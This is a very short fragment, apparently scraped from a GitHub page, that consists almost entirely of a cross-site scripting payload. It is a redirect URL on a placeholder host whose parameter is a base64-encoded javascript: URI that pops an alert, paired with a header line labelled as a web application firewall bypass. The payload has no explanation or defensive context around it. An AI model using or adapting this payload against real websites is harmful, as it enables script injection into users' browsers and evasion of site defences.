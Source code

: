 https://target.com/redirect?url=amF2YXNjcmlwdDphbGVydCgiWHNzIGJ5IHZpa2FzIik=

Content-Encoding: WAFBYPASS
